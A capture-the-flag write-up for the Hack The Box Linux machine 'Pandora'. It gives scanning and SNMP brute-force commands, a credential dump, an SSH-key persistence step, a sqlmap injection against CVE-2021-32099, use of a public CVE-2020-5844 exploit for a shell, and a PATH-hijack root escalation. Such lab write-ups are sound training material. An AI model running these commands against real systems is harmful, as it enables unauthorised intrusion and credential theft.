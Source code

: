 ```yaml
---
date: 2025-04-17
categories: [Linux, Easy]
---
```


![Pandora](https://labs.hackthebox.com/storage/avatars/6ac0e76002774bbfac92b0dbc86cb6af.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [TheCyberGeek](https://app.hackthebox.com/users/114053) & [dmw0ng](https://app.hackthebox.com/users/610173)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---








- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.136 -oG scan
	/opt/extractports scan
	nmap -p22,80 -Pn -sCV 10.10.11.136 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/ebd202c3-4af1-4ee1-868c-d84d744324f7)

- I found the domain `panda.htb` and I add it to the file in the `hosts` file
- After accessing the website and browsing through it, I don't find anything relevant, so I decide to enumerate the ports using UDP.
- As a first step, I use brute-force to discover the community strings.
	
	```python
	onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/snmp.txt 10.10.11.136
	```

- Having the community strings, I start to list the content and I find some credentials

	```python
	snmpwalk -v2c -c public 10.10.11.136
	```
	
	![image](https://github.com/user-attachments/assets/4c65a859-a23c-48f5-be0c-eba7d9749371)

- I validate the credentials found by ssh and get access to the system.

	```python
	ssh daniel@10.10.11.136
	```
	
	![image](https://github.com/user-attachments/assets/0bb34550-3755-4d1d-b259-87e72eb6b6e8)

- For a greater comfort at the time of connecting to the system, I generate a key that I add to the authorized_keys file to connect by ssh.
	
	```python
	ssh-keygen -f key
	cat key.pub
	echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /home/daniel/.ssh/authorized_keys
	ssh -i key daniel@10.10.11.136
	```

- I see that the first flag can be read by user matt.
- While searching the system for ways to perform a lateral move to the user matt, I find a website that I could not access previously. Using ssh I share port 80 to my machine to view it.

  ![image](https://github.com/user-attachments/assets/1ca23016-eab4-4d2e-b3f9-202a16c554db)

- After pointing in the hosts file `pandora.panda.htb` to my ip address, I get to see a CMS v7.0NG.742_FIX_PERL2020. Searching for information about it, I find several vulnerabilities.

	```python
	ssh -L 8089:localhost:80 daniel@10.10.11.136
	```
	![image](https://github.com/user-attachments/assets/6995be0d-3ce5-4d17-87d1-df6ce013a513)
	
- The first is CVE-2021-32099 which allows SQL injection. Using this vulnerability I can read the users that are registered in the database.

	```python
	sqlmap -u 'http://pandora.panda.htb:8089/pandora_console/include/chart_generator.php?session_id=*' --batch -D pandora -T tusuario -C email,id_user,is_admin.fullname,password --dump
	```
	
	![image](https://github.com/user-attachments/assets/0ad1a217-7efd-4a0d-b451-a21b79639a10)

- I am unable to break the password. I continue enumerating the different tables and I find one that contains the active sessions.
- All of them belong to user daniel and only one to user matt. Using the latter and together with another of the existing CMS vulnerabilities (CVE-2020-5844) allows me to execute commands on the system as the user matt. I use this [repository](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated) to get an interactive shell
	
	![image](https://github.com/user-attachments/assets/864fb986-53a1-41d2-93b7-d2c6a161b629)
	
	```python
	python3 sqlpwn.py -t pandora.panda.htb:8089 
	```

- Having the terminal as the user matt I manage to read the first flag of the system.
- Then it performs a treatment of the tty because with the current one it does not allow me to perform some commands like `sudo -l`. I added my ssh key following the same steps I described previously.

	```bash
	script /dev/null -c bash
	Ctrl + z
	stty raw -echo; fg
	reset xterm
	export SHELL=bash
	export TERM=xterm
	stty rows 50 columns 116
	```

- For privilege escalation I start by listing the binaries with SUID permissions and find one that is not common. `/usr/bin/pandora_backup`

	![image](https://github.com/user-attachments/assets/16f66561-8356-4b08-adcf-81d2016b9fd6)

- I copy the binary to my machine and look at the strings it has. I notice that it executes the tar command using a relative path so we can perform an attack by spoofing the binary to execute a custom one.
	
	```python
	strings pandora_backup
	```
	
	![image](https://github.com/user-attachments/assets/02b1353e-f304-48bb-b18f-0974b764a57e)
	
- I create a binary containing the command we want to execute, modify the PATH variable to point first to our directory and execute the pandora_backup binary. This way we can become root and we can read the second flag of the system.

	![image](https://github.com/user-attachments/assets/802b129a-4a83-4ecb-8711-de5c9c811b16)
